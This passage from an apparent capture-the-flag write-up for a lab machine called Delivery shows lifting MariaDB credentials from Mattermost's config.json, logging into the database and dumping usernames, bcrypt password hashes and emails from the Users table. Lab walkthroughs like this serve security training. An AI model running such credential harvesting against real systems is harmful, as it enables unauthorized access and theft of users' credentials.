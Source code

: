- Reading the config.json in mattermost config we got Username and password to the MariaDB

![](/Writeups/Delivery/Pasted image 20210519212851.png)

| user   | password              |
| ------ | --------------------- |
| mmuser | Crack_The_MM_Admin_PW |

```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -D mattermost -p
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 93
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mattermost]>

```

- Use Mattermost database
- select username and password and email from users table

```bash
MariaDB [mattermost]> SELECT Username,Password,Email FROM Users;
+----------------------------------+--------------------------------------------------------------+-------------------------+
| Username                         | Password                                                     | Email                   |
+----------------------------------+--------------------------------------------------------------+-------------------------+
| surveybot                        |                                                              | surveybot@localhost     |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK | 4120849@delivery.htb    |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G | 7466068@delivery.htb    |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | root@delivery.htb       |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq | 9122359@delivery.htb    |
| channelexport                    |                                                              | channelexport@localhost |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm | 5056505@delivery.htb    |
+----------------------------------+--------------------------------------------------------------+-------------------------+

```
